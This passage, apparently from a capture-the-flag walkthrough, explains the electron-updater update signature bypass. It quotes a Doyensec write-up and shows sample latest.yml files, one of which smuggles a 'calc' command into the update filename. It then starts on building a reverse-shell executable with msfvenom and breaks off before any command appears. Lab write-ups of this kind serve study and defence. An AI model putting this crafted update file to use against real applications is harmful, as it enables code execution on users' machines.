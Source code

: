 The same links come up with the terms identified in the windows
analysis.

#### Exploit Details

[This
post](https://blog.doyensec.com/electron-updater-update-signature-bypass.md)
gives a good breakdown of the vulnerability and exploit, as well as some
background:

> During a software update, the application will request a file named
> latest.yml from the update server, which contains the definition of
> the new release - including the binary filename and hashes.

The idea is that I can bypass any signature checks on updates by
breaking the script that manages that, specifically by putting a `'` in
the filename. The example file they give is:



    version: 1.2.3
    files:
      - url: v’ulnerable-app-setup-1.2.3.exe
      sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZ[...]tkYPEvMxDWgNkb8tPCNZLTbKWcDEOJzfA==
      size: 44653912
    path: v'ulnerable-app-1.2.3.exe
    sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZr1[...]ZrR5X1kb8tPCNZLTbKWcDEOJzfA==
    releaseDate: '2019-11-20T11:17:02.627Z'



There's also a command injection vuln that looks like:



    version: 1.2.3
    files:
      - url: v';calc;'ulnerable-app-setup-1.2.3.exe
      sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZ[...]tkYPEvMxDWgNkb8tPCNZLTbKWcDEOJzfA==
      size: 44653912
    path: v';calc;'ulnerable-app-1.2.3.exe
    sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZr1[...]ZrR5X1kb8tPCNZLTbKWcDEOJzfA==
    releaseDate: '2019-11-20T11:17:02.627Z'



### Shell

I'll show two ways to do this, both very similar, but first by uploading
the payload, and then serving it over HTTP.

#### Local

This tracks with how the article shows the update and the `latest.yml`.

I'll build an executable that will provide a reverse shell using
`msfvenom`:

